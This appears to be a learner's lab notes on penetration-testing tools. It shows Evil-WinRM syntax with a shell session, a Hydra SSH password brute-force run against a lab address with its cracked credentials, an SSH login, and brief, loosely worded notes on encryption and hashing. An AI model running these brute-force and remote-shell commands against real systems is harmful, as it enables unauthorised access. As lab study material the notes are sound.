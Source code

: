- The syntax for Evil-WinRM is 
```shell-session
00818@htb[/htb]$ evil-winrm -i <target-IP> -u <username> -p <password>
```
- Example of the syntax
```shell-session
00818@htb[/htb]$ evil-winrm -i 10.129.42.197 -u user -p password

Evil-WinRM shell v3.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\user\Documents>
```

- If the program was successful a terminal session is then initialized using the[MS-PSRP]() which simplifies the execution of commands

- we know about [[SSH]] 

## Symmetric Encryption 
- uses the same key for encryption and decryption 
- However anyone who has access to the key could also log in without credentials 

## Hashing 
- Hashing converts transmitted data into other unique values
-  SSH uses hashing to confirm the authenticity of messages which essentially uses a mathematical algorithm that only  works in one direction. 

## Hydra -SSH 
-  A tool such as Hydra can be used to brute force SSH

```shell-session
00818@htb[/htb]$ hydra -L user.list -P password.list ssh://10.129.42.197

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-10 15:03:51
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 25 login tries (l:5/p:5), ~2 tries per task
[DATA] attacking ssh://10.129.42.197:22/
[22][ssh] host: 10.129.42.197   login: user   password: password
1 of 1 target successfully completed, 1 valid password found
```

- In order to log in to the system  via ssh protocol we can openssh client which is available by default on most Linux distributions

```shell-session
00818@htb[/htb]$ ssh user@10.129.42.197

The authenticity of host '10.129.42.197 (10.129.42.197)' can't be established.
ECDSA key fingerprint is SHA256:MEuKMmfGSRuv2Hq+e90MZzhe4lHhwUEo4vWHOUSv7Us.


Are you sure you want to continue connecting (yes/no/[fingerprint])? yes

Warning: Permanently added '10.129.42.197' (ECDSA) to the list of known hosts.


user@10.129.42.197's password: ********

```